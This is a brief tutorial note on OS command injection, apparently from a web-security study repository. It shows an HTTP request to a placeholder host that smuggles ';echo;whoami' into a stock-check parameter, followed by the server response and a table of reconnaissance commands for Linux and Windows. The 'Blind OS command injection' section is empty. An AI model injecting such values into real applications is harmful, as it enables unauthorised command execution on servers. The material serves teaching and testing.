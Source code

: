##### ***What is OS command injection?***
OS command injection is a web vulnerability that allows an attacker to input malicious commands into a user supplied input value, that if not properly sanitized, allows the attacker to execute commands on the server.
##### ***Simple OS command injection***
This is a very simple example of a web application that does not filter or block command injection, in this POST request it checks for the stock of a product, simply use a semi-colon `;` to escape the existing request parameter and inject an `echo whoami` command to test for OS injection:
```
POST /product/stock HTTP/2
Host: vulnerable-website.com
productId=1&storeId=1;echo;whoami
---
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

62

peter-atwJzm
```
##### ***Useful commands***
|Command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|
##### ***Blind OS command injection***

##### ***Resources***
https://portswigger.net/web-security/os-command-injection
https://book.hacktricks.xyz/pentesting-web/command-injection
